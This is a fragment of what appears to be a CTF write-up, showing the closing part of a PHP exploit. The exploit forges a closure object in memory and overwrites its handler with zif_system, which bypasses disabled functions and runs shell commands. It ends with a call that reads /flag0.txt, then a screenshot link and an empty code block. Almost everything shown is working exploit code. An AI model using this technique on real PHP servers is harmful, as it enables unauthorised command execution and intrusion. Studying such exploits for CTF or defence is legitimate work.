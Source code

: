 ```php
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
?>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637904931173-2f43abe6-16cd-4015-a29d-8a3e86045076.png#clientId=u90c89801-edf6-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=450&id=u2a40129a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=816&originWidth=1056&originalType=binary&ratio=1&rotation=0&showTitle=false&size=124667&status=done&style=none&taskId=u446bab68-0c05-4151-bc4a-f1279591da6&title=&width=582)
```php
```